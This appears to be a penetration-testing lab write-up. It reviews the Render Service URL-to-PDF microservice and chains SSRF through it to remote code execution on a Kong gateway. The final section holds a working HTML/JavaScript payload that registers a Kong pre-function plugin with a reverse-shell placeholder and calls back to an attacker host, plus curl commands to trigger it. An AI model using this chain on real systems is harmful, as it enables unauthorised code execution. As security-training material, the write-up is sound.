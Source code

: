 ## The Render Service

The Render Service is an open-source _URL to PDF microservice_.
Visiting the GitHub source of the API, we see a warning:

![](../../03.%20Screenshots/t9-ss30.png)

The API is not supposed to be run publicly, however we have access to the service. We can now begin our source code review of the API, to find any potential RCE points.

We start by reviewing the src folder, the router.js file:

![](../../03.%20Screenshots/t9-ss31.png)
The code starts by importing various frameworks, such as express, and middleware, such as express-validator. It also imports 3 custom objects, from the /util/validation js file.
Reviewing the code further:

![](../../03.%20Screenshots/t9-ss32.png)

The code defines the router for GET requests to /api/render.
The first parameter to the render.get function is the URI path.
The 2nd parameter is a validation function that receives the getRenderSchema object.
Finally, the handler function is called(set by last parameter, render.getRender)

We can now move on to review validation function:

![](../../03.%20Screenshots/t9-ss33.png)

The code first starts off by importing the Joi library to define and validate the shapes of objects that will represent the body of an HTTP request.
The first variable is urlSchema that is a Joi string schema that requires the string to be a valid URL, with the the http or https schema

However, our main interest is the variable that was seen in the router.js file:

![](../../03.%20Screenshots/t9-ss34.png)

The _renderQuerySchema_ definition is also a Joi object.
The code defines a url parameter with the value of urlSchema.required() function.
These settings should prevent the application from processing a URL with the FILE protocol.
We can see that by making a request to the local /etc/passwd file:

![](../../03.%20Screenshots/t9-ss35.png)

The error thrown tells that a valid URL needs to be provided.

Now that we understand the validation, we can now move on to understanding the handler render.getRender function.
We first look for the function using a simple grep query:

![](../../03.%20Screenshots/t9-ss36.png)

however, we notice that:

![](../../03.%20Screenshots/t9-ss37.png)

The getRender function performs some additional validation by calling assertOptionsAllowed.
The options are then passed to the renderCore.render function.
We can study this function in the core/render-core.js file:

![](../../03.%20Screenshots/t9-ss38.png)
Starting off with the import statements, we see that the application uses puppeteer, which is a Node library for programmatically managing chrome.

![](../../03.%20Screenshots/t9-ss39.png)

![](../../03.%20Screenshots/t9-ss40.png)

![](../../03.%20Screenshots/t9-ss41.png)

The function first declares a browser object.
The createBrowser function, which creates a new browser process using puppeteer, sets the value of the object.
Then, a new page is created.
A page in this context can be thought of as single tab in the browser.
The code then defines several response handlers.
Finally, the function checks if HTML was submitted as part of the request. If not, the function loads the submitted URL in the browser.

At the end of the function:

![](../../03.%20Screenshots/t9-ss42.png)

If the requested output is a PDF, the function calls the _page.pdf_ function and sets the results in the data variable.
Otherwise, if the requested output format is HTML, the function instead calls page.evaluate, which returns the loaded page's innerHtml element.

## Code Execution

After a review on the documentation, we find that Kong admin plugins can be a good place to start.
For example, the serverless Functions plugin have an interesting warning in the documentation:

```txt
Warning: The pre-function and post-function serverless plugin allows anyone who can enable the plugin to execute arbitrary code. If your organization has security concerns about this, disable the plugin in your kong.conf file.
```

We can check if Kong has the plugin enabled:

![](../../03.%20Screenshots/t9-ss43.png)

According to the Kong documentation, we have to add a plugin to a service.
We could add the plugin to an existing service, but let's limit the exposure of it by creating a new service. A Service needs a Route for us to call it.
We will create a new HTML page with a JavaScript function that creates a service, adds a route to the service, then adds our Lua code as a "pre-function" plugin to the service.

We will use the following script:
 
```html
<html>
<head>
<script>

function createService() {
    fetch("http://172.16.16.2:8001/services", {
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"supersecret", "url": "http://127.0.0.1/"})
    }).then(function (route) {
      createRoute();
    });
}

function createRoute() {
    fetch("http://172.16.16.2:8001/services/supersecret/routes", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"paths": ["/supersecret"]})
    }).then(function (plugin) {
      createPlugin();
    });  
}

function createPlugin() {
    fetch("http://172.16.16.2:8001/services/supersecret/plugins", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"pre-function", "config" :{ "access" :[  REVERSE SHELL HERE ]}})
    }).then(function (callback) {
      fetch("http://192.168.118.3/callback?setupComplete");
    });  
}
</script>
</head>
<body onload='createService()'>
<div></div>
</body>
</html>
```

Here, the first function, sends a POST request to create a new service named "supersecret".
The function then calls the 2nd createRoute() function, which adds the "supersecret" route to the new service.
It then calls the 3rd createPlugin() function, which adds our Lua payload as a plugin on the service.
Finally, it makes a GET request to our Kali host.

Now that our payload is ready, we will execute it with the following IP:

```bash
curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://<attacker IP>/rce.html"}' http://apigateway:8000/files/import
```

We know our request is successful as we get a callback on our apache server:

![](../../03.%20Screenshots/t9-ss44.png)

Finally, we make a curl request to our new malicious plugin:
```bash
curl -i  http://apigateway:8000/supersecret
```

And get the RCE:

![](../../03.%20Screenshots/t9-ss45.png)